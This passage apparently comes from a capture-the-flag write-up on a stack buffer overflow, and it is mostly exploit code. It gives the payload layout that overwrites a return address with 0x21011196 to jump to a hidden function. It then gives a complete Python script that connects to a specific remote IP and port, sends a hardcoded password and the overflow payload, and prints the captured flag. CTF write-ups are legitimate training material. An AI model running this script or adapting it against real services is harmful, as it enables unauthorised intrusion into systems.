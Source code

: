 **Payload Structure:**
```
[64 bytes padding] + [8 bytes RBP] + [onepiece address (0x21011196)]
Total: 72 bytes + 8 bytes = 80 bytes
```

## Exploitation

### Payload Development

The key insight is calculating the correct offset to overwrite the return address:

```python
# Target function address
ONEPIECE_ADDR = 0x21011196

# Payload construction
payload = b'A' * 72                          # Fill buffer + saved RBP
payload += struct.pack('<Q', ONEPIECE_ADDR)  # Overwrite return address
```

### Exploit Script

```python
#!/usr/bin/env python3
import socket
import struct

HOST = '203.154.91.221'
PORT = 5225
ONEPIECE_ADDR = 0x21011196

def exploit():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    
    # Step 1: Send password
    data = s.recv(4096)
    print("Initial:", data.decode())
    
    s.send(b'security123\n')
    
    # Step 2: Wait for triggerland prompt
    data = s.recv(4096)
    print("After password:", repr(data))
    
    # Step 3: Send buffer overflow payload
    payload = b'A' * 72 + struct.pack('<Q', ONEPIECE_ADDR)
    s.send(payload + b'\n')
    
    # Step 4: Capture flag
    response = s.recv(4096)
    print("Response:", repr(response))
    
    if b'flag{' in response:
        flag = response.decode()
        print(f"\n🏴‍☠️ FLAG CAPTURED: {flag}")
    
    s.close()

if __name__ == "__main__":
    exploit()
```

